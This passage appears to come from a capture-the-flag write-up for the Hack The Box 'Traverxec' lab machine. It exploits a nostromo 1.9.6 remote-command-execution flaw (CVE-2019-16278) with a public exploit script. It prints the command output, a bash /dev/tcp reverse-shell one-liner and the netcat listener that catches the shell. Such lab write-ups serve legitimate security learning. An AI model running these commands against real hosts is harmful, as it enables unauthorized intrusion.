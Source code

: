 ```python
```

Comment the line 10:
```shell
❯ sed '10q;d' 47837.py
#cve2019_16278.py
```

> `NUMq` will quit immediately when the line number is NUM.
> `d` will delete the line instead of printing it; this is inhibited on the last line because the q causes the rest of the script to be skipped when quitting.

We can succesfully execute a command and receive the output:
```shell
❯ python 47837.py 10.10.10.165 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Sun, 17 Oct 2021 22:25:17 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Send a reverse shell:
```shell
python 47837.py 10.10.10.165 80 '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/1234 0>&1"'
```

Receive the reverse shell with nc on port 1234:
```shell
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 54928
bash: cannot set terminal process group (441): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ whoami
whoami
www-data
www-data@traverxec:/usr/bin$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b9:a7:98 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
```

